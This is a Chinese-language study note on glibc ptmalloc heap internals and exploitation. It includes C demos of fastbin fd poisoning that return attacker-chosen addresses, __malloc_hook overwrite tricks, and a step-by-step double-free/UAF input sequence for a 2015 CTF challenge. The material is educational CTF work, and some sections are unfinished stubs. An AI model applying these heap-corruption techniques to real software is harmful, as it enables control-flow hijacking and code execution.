



### 基本概念

#### 不同堆实现

```txt
dlmalloc  – General purpose allocator
ptmalloc2 – glibc
jemalloc  – FreeBSD and Firefox
tcmalloc  – Google
libumem   – Solaris
```

#### chunk

下面这个结构体极具迷惑性，在真实的内存空间中（假设64位），一个`struct malloc_chunk`只会占用`8+8+8+8=32`个字节

```c
// size_t一般来说在64位系统位64bit，32位系统为32bit
#define INTERNAL_SIZE_T size_t
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {
    
  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free). 如果上一块chunk不是空闲的，则该部分没有含义 */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

这是因为，同一块chunk的数据，在不同状态下（use/free/bigChunkAndFree）的解释不同

在free状态下，根据该chunk的大小，指针将会被命名`fd`和`bk` 或者 `fd_nextsize`和 `bk_nextsize`



在使用状态下，chunk的元数据只有`prev_size`和`size`，原本用于存放指针的`fd/`fd_nextsize和`bk/bk_nextsize`会用于存放数据



chunk的最小size为`0x20，这是因为`prev_size size fd/fd_nextsize bk/bk_nextsize`所需的空间为0x20，也就导致了malloc分配的最小空间为`0x10`

此外size的低三位为标记位，A记录当前 `chunk` 是否不属于主线程，1 表示不属于，0 表示属于；M记录当前 `chunk` 是否是由 mmap 分配的；P记录前一个 `chunk` 块是否被分配。一般来说，堆中第一个被分配的内存块的 size 字段的 P 位都会被设置为 1，以便于防止访问前面的非法内存。当一个 `chunk` 的 size 的 P 位为 0 时，我们能通过 `prev_size` 字段来获取上一个 `chunk` 的大小以及地址。这也方便进行空闲 `chunk` 之间的合并。

##### chunk大小

由于上述原因，size的低三位不能用于表示chunk的大小，因此，chunk的大小必须为对齐，在32位中是8的倍数（自 2.26 版本起始的 32 位 glibc，是16的倍数），在64位中是16的倍数。

chunk的最小大小为`0x20`(x64下)，这是因为`prev_szie+size+fk+bk`至少需要该大小的空间

#### bin

用户释放掉的 `chunk` 不会马上归还给系统，ptmalloc 会统一管理 heap 和 mmap 映射区域中的空闲的 chunk。当用户再一次请求分配内存时，ptmalloc 分配器会试图在空闲的 chunk 中挑选一块合适的给用户。

空闲的chunk按照大小，串联在不同大小的链表中，这些链表的头节点存放在一个叫做`bins`的数组中

```c
#define NBINS 128
/* Normal bins packed as described above */
mchunkptr bins[ NBINS * 2 - 2 ];
```

`mchunkptr`为`malloc_chunk`类型的指针，bins数组中，每两个`mchunkptr`为一组，，即一个链表的开头，bin[0]和bin[1]不使用，算下来共有127个bin，注意到有的文章中说bin也是`malloc_chunk`类型，`fd bk`对应两个`mchunkptr`，而`prev_size size`复用上一个bin的两个`mchunkptr`，这种说法来自于对bin的操作是复用操作`malloc_chunk`的代码。

bin又分为`Fast Bin,Small Bin,Large Bin,Unsorted Bin`这几种，其中`Small Bin,Large Bin,Unsorted Bin`是由bins管理的:

* 第一个为 unsorted bin，字如其面，这里面的 `chunk` 没有进行排序，存储的 `chunk` 比较杂
* 索引从 2 到 63 的 bin 称为 small bin，同一个 small bin 链表中的 `chunk` 的大小相同。两个相邻索引的 small bin 链表中的 `chunk` 大小相差的字节数为 **2 个机器字长**，即 32 位相差 8 字节，64 位相差 16 字节。
* small bins 后面的 bin 被称作 large bins。large bins 中的每一个 bin 都包含一定范围内的 chunk，其中的 chunk 按 fd 指针的顺序从大到小排列。相同大小的 chunk 同样按照最近使用顺序排列。

除Fast Bin外，其它bin的chunk在free时会合并相邻地址的chunk，而Fast Bin总被标记为使用，不会进行合并检查

##### Fast Bin

大多数程序经常会申请以及释放一些比较小的内存块。如果将一些较小的 `chunk` 释放之后发现存在与之相邻的空闲的 `chunk` 并将它们进行合并，那么当下一次再次申请相应大小的 `chunk` 时，就需要对 `chunk` 进行分割，这样就大大降低了堆的利用效率。**因为我们把大部分时间花在了合并、分割以及中间检查的过程中。**因此，ptmalloc 中专门设计了 fast bin，对应的变量就是 malloc state 中的 fastbinsY

```c
/*
   Fastbins

    An array of lists holding recently freed small chunks.  Fastbins
    are not doubly linked.  It is faster to single-link them, and
    since chunks are never removed from the middles of these lists,
    double linking is not necessary. Also, unlike regular bins, they
    are not even processed in FIFO order (they use faster LIFO) since
    ordering doesn't much matter in the transient contexts in which
    fastbins are normally used.

    Chunks in fastbins keep their inuse bit set, so they cannot
    be consolidated with other free chunks. malloc_consolidate
    releases all chunks in fastbins and consolidates them with
    other free chunks.
 */
typedef struct malloc_chunk *mfastbinptr;

/*
    This is in malloc_state.
    /* Fastbins */
    mfastbinptr fastbinsY[ NFASTBINS ];
*/
```

为了更加高效地利用 fast bin，glibc 采用单向链表对其中的每个 bin 进行组织，并且**每个 bin 采取 LIFO 策略**，最近释放的 `chunk` 会更早地被分配，所以会更加适合于局部性。也就是说，当用户需要的 `chunk` 的大小小于 fastbin 的最大大小时， ptmalloc 会首先判断 fastbin 中相应的 bin 中是否有对应大小的空闲块，如果有的话，就会直接从这个 bin 中获取 chunk。如果没有的话，ptmalloc 才会做接下来的一系列操作。

* 大小
  * 32位 0x10-0x78
  * 64位 0x20-0x80

但是当释放的 `chunk` 与该 `chunk` 相邻的空闲 `chunk` 合并后的大小大于 FASTBIN_CONSOLIDATION_THRESHOLD 时，内存碎片可能比较多了，我们就需要把 fast bins 中的 chunk 都进行合并，以减少内存碎片对系统的影响。

###### fastbins简单的double free防御（TODO）

###### fastbins弹出时的size大小检查、低四位屏蔽（TODO）

###### 修改global_max_fast改变fastbin的上限大小

##### Unsorted Bin

unsorted bin 可以视为空闲 `chunk` 回归其所属 bin 之前的缓冲区。

unsorted bin 中的空闲 `chunk` 处于乱序状态，主要有两个来源

- 当一个较大的 `chunk` 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
- 释放一个不属于 fast bin 的 chunk，并且该 `chunk` 不和 top `chunk` 紧邻时，该 `chunk` 会被首先放到 unsorted bin 中。关于 top `chunk` 的解释，请参考下面的介绍。

此外，Unsorted Bin 在使用的过程中，采用的遍历顺序是 FIFO 。

合并的发生时机：

当程序调用 `malloc` 申请一块内存时，分配器会按以下顺序查找：

1. **Fastbin**（如果大小匹配）。
2. **Small Bin**（如果大小匹配）。
3. **Unsorted Bin 遍历**（如果没有在前面找到合适的块）：
   - 分配器会从 Unsorted Bin 的尾部（`bk` 指针方向）开始，**一个个取出**里面的 Chunk。
   - **如果**取出的 Chunk 大小刚好等于申请的大小（且不属于 Small Bin 范围），它可能直接被切分并返回给用户。
   - **如果**大小不匹配，分配器就会把这个 Chunk **“排序”**：
     - 根据 Chunk 的大小，将其放入对应的 **Small Bin** 或 **Large Bin**。
   - 这个过程会一直持续，直到 Unsorted Bin 变空，或者分配器找到了满足当前 `malloc` 请求的块。

###### 通过Unsorted Bin泄露libc地址

大致步骤如下:

* add(0, 0x80) 申请目标块，大小要能够进入Unsorted Bin
* add(1, 0x10)申请隔离块，方式free时恰好目标快与top chunk相邻而合并
* delete(0) free目标块，需要目标快处于链表的头部或者尾部
* show(0) 泄露目标块，从fd或者bk泄露libc偏移

注意，在泄露前：

* 防止向上合并：要申请隔离块
* 防止向下合并：
* 防止发生分类：尽量不要申请fastbins中没有的块
* 防止再次分配：尽量不要申请和目标块大小相等的块

```txt
Leak Address = Libc基址+main_arena偏移+bins数组偏移
bins数组偏移不同版本不同，为88或者96
```


##### Small Bin

small bins 中每个 `chunk` 的大小与其所在的 bin 的 index 的关系为：chunk_size = 2 * SIZE_SZ *index，具体如下



small bins 中一共有 62 个循环双向链表，每个链表中存储的 `chunk` 大小都一致。比如对于 32 位系统来说，下标 2 对应的双向链表中存储的 `chunk` 大小为均为 16 字节。每个链表都有链表头结点，这样可以方便对于链表内部结点的管理。此外，**small bins 中每个 bin 对应的链表采用 FIFO 的规则**，所以同一个链表中先被释放的 `chunk` 会先被分配出去。

 fastbin 与 small bin 中 `chunk` 的大小会有很大一部分重合，重合部分来自：

* **overflow / consolidation / malloc_consolidate** 会把 fastbin 清空，这些 chunk 重新进入 unsorted bin，然后归入 small bin
* fastbin chunk 本身不与相邻 free chunk 合并，一旦malloc_consolidate 被触发，fastbin 中的 chunk 会被合并到 unsorted bin，再进入 small bin
* malloc 拆分一个 large chunk 时，如果拆出来的剩余部分 chunk_size ≤ fastbin_max，释放时可能直接进入 small bin

##### Large Bin

large bins 中一共包括 63 个 bin，每个 bin 中的 `chunk` 的大小不一致，而是处于一定区间范围内。此外，这 63 个 bin 被分成了 6 组，每组 bin 中的 `chunk` 大小之间的公差一致，具体如下：


63个large bin的区间是紧密相邻的，例如第一组中的第一个large bin大小为[512,512+64)，第二个为[578,578+64)

#### top chunk

程序第一次进行 malloc 的时候，heap 会被分为两块，一块给用户，剩下的那块就是 top chunk。其实，所谓的 top `chunk` 就是处于当前堆的物理地址最高的 chunk。这个 `chunk` 不属于任何一个 bin，它的作用在于当所有的 bin 都无法满足用户请求的大小时，如果其大小不小于指定的大小，就进行分配，并将剩下的部分作为新的 top chunk。否则，就对 heap 进行扩展后再进行分配。在 main arena 中通过 sbrk 扩展 heap，而在 thread arena 中通过 mmap 分配新的 heap。

需要注意的是，top `chunk` 的 prev_inuse 比特位始终为 1，否则其前面的 chunk 就会被合并到 top chunk 中。

##### 与top chunk合并

一个chunk被free时，只要与top chunk相邻，即会合并，但是fastbins是特例

#### last remainder

#### arena

#### 不同版本的libc

| glibc 版本      | 变化级别 | 核心影响                                  |
| --------------- | -------- | ----------------------------------------- |
| **2.23**        | ⭐⭐⭐⭐⭐    | 最后一个“无 tcache”的版本，传统堆利用巅峰 |
| **2.26**        | ⭐⭐⭐⭐⭐    | **引入 tcache**，堆利用范式发生根本变化   |
| **2.27**        | ⭐⭐⭐⭐     | tcache 双重 free 检测加强                 |
| **2.29 / 2.30** | ⭐⭐⭐⭐     | **tcache key / pointer mangling**         |
| **2.31**        | ⭐⭐⭐      | unlink / bin 检查进一步严格               |
| **2.32**        | ⭐⭐⭐⭐     | **safe-linking 正式全面启用**             |
| **2.34**        | ⭐⭐⭐⭐     | libpthread 合并，hook 利用路线受限        |
| **2.35+**       | ⭐⭐⭐      | 堆利用趋向“组合型 / 信息泄露依赖”         |

#### __malloc_hook

```c
void *
__libc_malloc (size_t bytes)
{
  mstate ar_ptr;
  void *victim;

  void *(*hook) (size_t, const void *)
    = atomic_forced_read (__malloc_hook);
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(bytes, RETURN_ADDRESS (0));

  arena_get (ar_ptr, bytes);

  victim = _int_malloc (ar_ptr, bytes);
  /* Retry with another arena only if we were able to find a usable arena
     before.  */
  if (!victim && ar_ptr != NULL)
    {
      LIBC_PROBE (memory_malloc_retry, 1, bytes);
      ar_ptr = arena_get_retry (ar_ptr, bytes);
      victim = _int_malloc (ar_ptr, bytes);
    }

  if (ar_ptr != NULL)
    (void) mutex_unlock (&ar_ptr->mutex);

  assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
          ar_ptr == arena_for_chunk (mem2chunk (victim)));
  return victim;
}
```

* `__malloc_hook`会在malloc调用时被检测，如果存在，则会调用该hook指向的函数，所以在堆利用中常常会选择覆盖`__malloc_hook`进行控制流劫持

```shell
# 可以找到size在0x80以下的fake chunk
find_fake_fast &__malloc_hook 0x80
```


##### 伪造fastbin  chunk

###### size伪造

* fastbin在弹出chunk时，会检查chunk的size，所以需要伪造一个合适的size
  * 多版本通用，在`__malloc_hook`的`-0x23`处开始（2.23版本验证过），存在一个size为`0x7x`，可以加入`0x70`大小的fastbins中chunk。
    * **补充**：在libc 2.23进行测试时，发现如下情况
    * 上述`0x7x`为`_IO_wide_data_0+304`处的指针的高到低第三位，为libc偏移的第一个非0字节
    * `_IO_wide_data_0+304`对应属性`_wide_vtable`，这个指针在运行过程中几乎不会发生变化，较为稳定 
  * size后四位如果为`x10x`，malloc时会访问`&fake_chunk&~(HEAP_MAX_SIZE-1)`，有可能造成非法内存访问，size的后四位为`0 1 2 3 6 7 8 9 a b e f`时，不会访问该地址
    * 结合上文size值，这个通用方法不一定保证能打成功，要求libc的偏移满足上述的要求

```txt
*fd=libc+__malloc_hook_offset-0x23
malloc_addr=*fd+0x10
*malloc_addr='A'*0x13+hijack_addr
```

* 下面这个size用于测试fake chunk在不同size时，malloc申请fake chunk的影响

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

// 16 字节对齐的全局缓冲区
uint8_t pool[256] __attribute__((aligned(16)));

void test_size_bits(int offset) {
    printf("Testing size bits 영향 (0x70 - 0x7F) on Fastbin 0x70...\n");
    printf("Target pool address: %p\n\n", pool);

    for (int s = 0x70+offset; s <= 0x7f; s++) {
        // --- 环境清理 ---
        memset(pool, 0, sizeof(pool));
        
        // 1. 在 fake_chunk_addr + 8 处伪造 size
        // 我们假设偏移为 0，即 fake_chunk 就是 pool 的开头
        uint64_t *fake_chunk = (uint64_t *)pool;
        fake_chunk[1] = (uint64_t)s;   // offset +8: size
        fake_chunk[2] = 0;             // offset +16: fd (必须为0)

        // 2. 构造一个进入 Fastbin 的块
        void *a = malloc(0x60); 
        malloc(0x60);           // 隔离块，防止与 Top Chunk 合并
        
        // 3. 释放 a 进入 Fastbin [0x70]
        free(a);

        // 4. 投毒：修改 a 的 fd 指向 pool
        // 在 64 位下，malloc 返回的地址指向 chunk+16，
        // 但 a 作为被释放的 chunk，其 fd 就在 a 指向的地址处
        *(void **)a = (void *)pool;

        // 5. 提取过程
        void *tmp = malloc(0x60);    // 第一次 malloc: 拿到 a
        void *victim = malloc(0x60); // 第二次 malloc: 拿到 pool + 16

        // 6. 验证结果
        void *expected = (void *)(pool + 16);
        if (victim == expected) {
            printf("[+] Size 0x%x: SUCCESS (Got %p)\n", s, victim);
        } else {
            printf("[-] Size 0x%x: FAILED (Got %p, Expected %p)\n", s, victim, expected);
        }

        // 每次测试后简单清理，防止 Fastbin 链表混乱
        // 实际操作中，由于我们重置了 pool，下一次 malloc(0x60) 会从 Top Chunk 分配
    }
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <offset (0-15)>\n", argv[0]);
        return 1;
    }
    int offset = atoi(argv[1]);
    if(offset>=0&&offset<=0x0f)
        test_size_bits(offset);
    else
        printf("error offset:%d",offset);
    return 0;
}
```


###### 地址对齐问题

* 伪造的chunk起始地址不一定是对齐的,在2.23通过如下demo进行测试,得出结论,不对齐的地址不会对后续fake_chunk的malloc有任何影响
* 但是查询资料得知,在2.31版本后,会强制对齐,这一点暂未验证

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

// 保证 pool 是 16 字节对齐的
uint8_t pool[256] __attribute__((aligned(16)));

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <offset (0-15)>\n", argv[0]);
        return 1;
    }

    int offset = atoi(argv[1]);
    // 我们的 Fake Chunk 起始地址
    // 它的最后一位将是 offset 的十六进制值
    void *fake_chunk_addr = (void *)&pool[offset];
    
    printf("[*] Fake Chunk Address: %p (Offset: %d)\n", fake_chunk_addr, offset);

    // 在 fake_chunk_addr + 8 的位置写入 size
    // 0x71 对应 malloc(0x60) 的请求
    *(uint64_t *)(fake_chunk_addr + 8) = 0x71;

    printf("[*] Setting up Fastbin link...\n");

    // 1. 申请一个 0x60 的块，进入 Fastbin
    void *a = malloc(0x60);
    void *b = malloc(0x60); // 隔离块，防止合并
    
    // 2. 释放 a，使其进入 Fastbin
    free(a);

    // 3. 模拟漏洞：修改 a 的 fd 指针，指向我们的伪造地址
    // 注意：在 GLIBC 2.31+ 可能会有 Tcache 干扰，建议用旧版本或关掉 Tcache
    *(void **)a = fake_chunk_addr;

    printf("[*] First malloc(0x60) to clear the bin head...\n");
    malloc(0x60); 

    printf("[*] Second malloc(0x60) - THIS SHOULD RETURN THE FAKE CHUNK...\n");
    
    // 4. 关键点：这次 malloc 将尝试从 Fastbin 提取我们的 fake_chunk_addr
    void *victim = malloc(0x60);

    if (victim) {
        printf("[+] SUCCESS! Malloc returned: %p\n", victim);
    } else {
        printf("[-] FAILED!\n");
    }

    return 0;
}
```

###### 非法fd、bk

* 注意如下demo，非法的fd并没有影响该fake chunk的申请

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

uint8_t pool[256] __attribute__((aligned(16)));

void test_illegal_fd() {
    printf("--- Fastbin Illegal FD Test ---\n");
    printf("Target pool address: %p\n", pool);

    // 1. 构造 Fake Chunk
    uint64_t *fake_chunk = (uint64_t *)pool;
    fake_chunk[1] = 0x71;        // Size: 0x70 bin
    
    // 【关键】设置一个绝对非法的 FD
    // 这个地址没有对齐，且处于未映射区域
    fake_chunk[2] = 0xdeadbeefdeadbeef; 
    printf("[!] Fake chunk created at %p, FD set to: 0x%lx\n", pool, fake_chunk[2]);

    // 2. 准备 Fastbin 链表
    void *a = malloc(0x60);
    malloc(0x60); // Gap
    free(a);
    
    // 3. 投毒：a->fd -> pool
    *(void **)a = (void *)pool;
    printf("[!] Fastbin chain: [main_arena] -> [Chunk A] -> [Pool]\n");

    // 4. 第一次 malloc：拿走 Chunk A
    printf("[*] Requesting 1st 0x60 chunk (getting A)...\n");
    malloc(0x60);
    printf("[+] Got A. Now Fastbin head is [Pool].\n");

    // 5. 第二次 malloc：拿走 Pool (Fake Chunk)
    printf("[*] Requesting 2nd 0x60 chunk (getting Pool)...\n");
    void *victim = malloc(0x60);
    
    if (victim == (void *)(pool + 16)) {
        printf("[SUCCESS] Successfully allocated Fake Chunk at %p!\n", victim);
        printf("[NOTE] Notice that malloc DID NOT crash even with FD = 0xdeadbeef.\n");
    }

    // 6. 第三次 malloc：尝试从被污染的 Bin 中提取
    printf("[*] Requesting 3rd 0x60 chunk (This should crash)...\n");
    malloc(0x60); // 这里会崩溃
}

int main() {
    test_illegal_fd();
    return 0;
}
```

#### __free_hook

##### libc2.23

按照和`__malloc_hook`的思路，伪造覆盖`__free_hook`的chunk，但是不成功。在`__free_hook`的`-0x10`位置也有一个指向libc地址的指针，其最高非0字节也可以被用作size，但是这个指针为`_IO_stdfile_0_lock+8`为结构体的属性`owner`是当前持有 stdin 这把锁的线程（thread descriptor 指针），不够稳定，通过如下命令可以监控其变化

```shell
watch *(int*)((char*)&__free_hook-16)
```

##### 伪造稳定size

#### _\_malloc\_hook+__realloc_hook调整栈帧

#### _IO_FILE

### 2.23

#### fastbin_dup_into_stack

[write-ups-2015/9447-ctf-2015/exploitation/search-engine at master · ctfs/write-ups-2015](https://github.com/ctfs/write-ups-2015/tree/master/9447-ctf-2015/exploitation/search-engine)

* 缺陷
  * 程序不限制\x00等字符的输入
  * 程序不对输入的字符串结尾补\x00
* 利用
  * 输入句子时，连续申请三个0x70或者的chunk（属于fastbins），防止和存放敏感词的chunk大小重合，造成混乱
  * 删除后释放，结构为A->B->C->0，C的data为空，无法通过代码逻辑double free，B的fd不为0，可以通过代码逻辑double free，但时B->B会被检测到，因此需要构造B->A->B这样的形式绕过检测
  * 将B **double free**，形成B->A->B
  * 申请B后，输入数据，即可篡改fastbins上B的fd指针，再连续三次申请chunk，即可得到fd所指向的地址。根据篡改的fd指针，有两种利用方式:
    * 通过泄露的栈地址，篡改fd为栈的返回地址
      * 输入词语、句子大小时，程序没有强制以\x00结尾，字符串数组在使用前也没有置0，导致可以打印出栈上残留信息
      * 可以泄露 libc/栈地址
    * 通过泄露unsorted中chunk的数据，获取libc的地址，篡改fd为覆盖malloc_hook的chunk，然后将__malloc_hook覆盖为oneGadget

##### 栈上返回地址的劫持

##### 劫持__malloc_hook

```shell
# 申请大小可以进入unsorted bins的块A，后续泄露libc做准备
2
128
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA A AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# 申请0x70大小的块B，属于fastbins，1.程序逻辑需求，为后续double free做准备；2.防止上一个块free后直接于top chunk合并
2
96
AAAAAAAAAAAAAAAAAAAAA AA AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# 删除chunk A
1
1
A
y

# 通过unsorted bins泄露libc
1
1
\x00
n

# 申请0x70大小的块C，属于fastbins
2
96
AAAAAAAAAAAAAAAAAAAAA AAA AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# 申请0x70大小的块D，属于fastbins，double free的目标块
2
96
AAAAAAAAAAAAAAAAAAAAA AAAA AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# free B
1
2
AA
y

# free  C
1
3
AAA
y

# free D
1
4
AAAA
y

# double free C
1
3
\x00\x00\x00
y

# UAF，覆盖fd，指向__malloc_hook附近
2
96
\xed\x4a\x9c\xc6\xdd\x75\x00\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# 申请B
2
96
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# 申请C
2
96
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# 申请
2
96
AAAAAAAAAAAAA+onegadget+A*75

# 下次malloc触发
```
